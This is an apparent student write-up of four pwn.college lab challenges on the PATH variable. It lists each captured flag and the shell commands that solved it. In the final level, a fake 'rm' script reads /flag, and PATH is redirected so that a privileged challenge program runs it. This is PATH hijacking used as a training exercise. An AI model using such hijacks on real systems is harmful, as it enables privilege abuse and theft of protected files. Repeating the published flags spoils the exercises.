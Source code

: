 1. The PATH Variable<br/>
flag: pwn.college{U2RyJ7OdzEqwhOrqnLS3dY_0cF5.dZzNwUDL5cjN0czW}<br/>
~$  PATH=""<br/>
~$ /challenge/run<br/>

2. Setting Path<br/>
flag: pwn.college{QX93eYz2JB1zIfrqWCQh4m7De8m.dVzNyUDL5cjN0czW}<br/>
~$ ls /challenge/more_commands/<br/>
~$ PATH=/challenge/more_commands/<br/>
~$ /challenge/run<br/>

3.Adding Commands<br/>
flag:pwn.college{wJcwe1O_ag6EVISR08sbP4kL6ab.dZzNyUDL5cjN0czW}.<br/> 
~$ touch win<br/>
~$ nano win<br/>
~$ chmod u+x win<br/>
~$ PATH=/home/hacker<br/>
~$ /challenge/run<br/>

4.Hijacking Commands<br/>
flag: pwn.college{AZHhOB0rd99aHl7WL6ZMZLSstZs.ddzNyUDL5cjN0czW}<br/>
In this challenge, we need to trick /challenge/run into printing the flag by changing the rm comamnd.<br/>
we use nano command and open rm command and write<br/>
"read FLAG < /flag
echo $FLAG"
~$ nano rm
~$ chmod o+x rm
~$ PATH=~/
~$ /challenge/run
